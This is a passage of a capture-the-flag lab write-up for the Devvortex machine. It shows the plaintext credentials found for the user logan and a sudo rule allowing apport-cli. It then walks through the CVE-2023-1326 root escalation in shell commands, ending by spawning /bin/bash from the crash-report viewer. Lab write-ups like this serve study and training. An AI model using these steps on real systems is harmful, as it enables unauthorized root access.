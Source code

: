 > We've got logan creds: `logan:tequieromucho`, and can read user flag :D

![](Pasted%20image%2020241119163632.png)

## Privilege Escalation

If we run `sudo -l`:

```shell
sudo -l

[redacted]
User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

I ran the help of the program and saw that it was kinda "crash report program". I searched in Google for "*apport cli privilege escalation*" and found [CVE-2023-1326](https://github.com/diego-tella/CVE-2023-1326-PoC).

Before executing it, I need to trigger a crash report of any process, so I executed the following:

```shell
ps -ef
# Select a random PID -> 898 in my case
sudo /usr/bin/apport-cli -f -P 898
# Then select V
# Then type /bin/bash
```

![](Pasted%20image%2020241119165027.png)

> Now I can read root flag :D

![](Pasted%20image%2020241119165119.png)

==Machine pwned!==